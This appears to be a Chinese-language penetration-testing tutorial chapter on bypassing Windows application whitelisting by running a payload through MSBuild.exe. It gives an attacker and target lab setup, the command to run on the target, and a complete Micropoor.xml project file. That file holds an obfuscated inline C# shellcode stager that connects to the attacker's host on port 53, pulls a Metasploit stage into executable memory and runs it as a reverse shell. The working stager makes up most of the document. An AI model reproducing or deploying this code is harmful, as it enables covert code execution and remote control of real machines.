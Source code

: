### 11.1 基于白名单Msbuild.exe执行payload（一）

**MSBuild简介：**

MSBuild 是 Microsoft Build Engine 的缩写，代表 Microsoft 和 Visual Studio的新的生成平台。MSBuild在如何处理和生成软件方面是完全透明的，使开发人员能够在未安装Visual Studio的生成实验室环境中组织和生成产品。

MSBuild 引入了一种新的基于 XML的项目文件格式，这种格式容易理解、易于扩展并且完全受 Microsoft 支持。MSBuild项目文件的格式使开发人员能够充分描述哪些项需要生成，以及如何利用不同的平台和配置生成这些项。

说明：Msbuild.exe所在路径没有被系统添加PATH环境变量中，因此，Msbuild命令无法识别。

**基于白名单MSBuild.exe配置payload：**

Windows 7默认位置为：

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe
    
        

攻击机：192.168.1.4 Debian

靶机： 192.168.1.3 Windows 7

**靶机执行：**

    C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe Micropoor.xml
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009224938763.png%23pic_center)-
配置攻击机msf：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009224949350.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
附录：Micropoor.xml-
注：x86 payload

    <Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
    
    <!‐‐ C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj Micropoor ‐‐>
    
    <Target Name="iJEKHyTEjyCU">
    
    <xUokfh />
    
    </Target>
    
    <UsingTask
    
    TaskName="xUokfh"
    
    TaskFactory="CodeTaskFactory"
    
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\\Microsoft.Build.Tasks.v4.0.dll" >
    
    <Task> 
    
    <Code Type="Class" Language="cs">
    
    <![CDATA[
    
    using System; using System.Net; using System.Net.Sockets; using System.Linq; using System.Runtime.InteropServices; using System.Threading; using Microsoft.Build.Framework; using Microsoft.Build.Utilities;
    
    public class xUokfh : Task, ITask {
    
    [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 ogephG,UInt32 fZZrvQ, UInt32 nDfrBaiPvDyeP, UInt32 LWITkrW);
    
    [DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 qEVoJxknom, UInt32 gZyJBJWYQsnXkWe, UInt32 jyIPELfKQYEVZM,IntPtr adztSHGJiurGO, UInt32 vjSCprCJ, ref UInt32 KbPukprMQXUp);
    
    [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr wVCIQGmqjONiM, UInt32 DFgVrE);
    
    static byte[] VYcZlUehuq(string IJBRrBqhigjGAx, int XBUCexXIrGIEpe) {
    
    IPEndPoint DRHsPzS = new IPEndPoint(IPAddress.Parse(IJBRrBqhigjGAx), XBUCexXIrGIEpe);
    
    Socket zCoDOd = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
    
    try { zCoDOd.Connect(DRHsPzS); }
    
    catch { return null;}
    
    byte[] OCrGofbbWRVsFEl = new byte[4];
    
    zCoDOd.Receive(OCrGofbbWRVsFEl, 4, 0);
    
    int auQJTjyxYw = BitConverter.ToInt32(OCrGofbbWRVsFEl, 0);
    
    byte[] MlhacMDOKUAfvMX = new byte[auQJTjyxYw + 5];
    
    int GFtbdD = 0;
    
    while (GFtbdD < auQJTjyxYw)
    
    { GFtbdD += zCoDOd.Receive(MlhacMDOKUAfvMX, GFtbdD + 5, (auQJTjyxYw ‐ GFtbdD) < 4096 ? (auQJTjyxYw ‐ GFtbdD) : 4096, 0);}
    
    byte[] YqBRpsmDUT = BitConverter.GetBytes((int)zCoDOd.Handle);
    
    Array.Copy(YqBRpsmDUT, 0, MlhacMDOKUAfvMX, 1, 4); MlhacMDOKUAfvMX[0] = 0xBF;
    
    return MlhacMDOKUAfvMX;}
    
    static void NkoqFHncrcX(byte[] qLAvbAtan) {
    
    if (qLAvbAtan != null) {
    
    UInt32 jrYMBRkOAnqTqx = VirtualAlloc(0, (UInt32)qLAvbAtan.Length, 0x1000, 0x40);
    
    Marshal.Copy(qLAvbAtan, 0, (IntPtr)(jrYMBRkOAnqTqx), qLAvbAtan.Length);
    
    IntPtr WCUZoviZi = IntPtr.Zero;
    
    UInt32 JhtJOypMKo = 0;
    
    IntPtr UxebOmhhPw = IntPtr.Zero;
    
    WCUZoviZi = CreateThread(0, 0, jrYMBRkOAnqTqx, UxebOmhhPw, 0, ref JhtJOypMKo);
    
    WaitForSingleObject(WCUZoviZi, 0xFFFFFFFF); }} 
    
    public override bool Execute()
    
    {
    
    byte[] uABVbNXmhr = null; uABVbNXmhr = VYcZlUehuq("192.168.1.4", 53);
    
    NkoqFHncrcX(uABVbNXmhr); 
    
    return true; } }
    
    ]]>
    
    </Code>
    
    </Task>
    
    </UsingTask>
    
    </Project>
    
        

* * *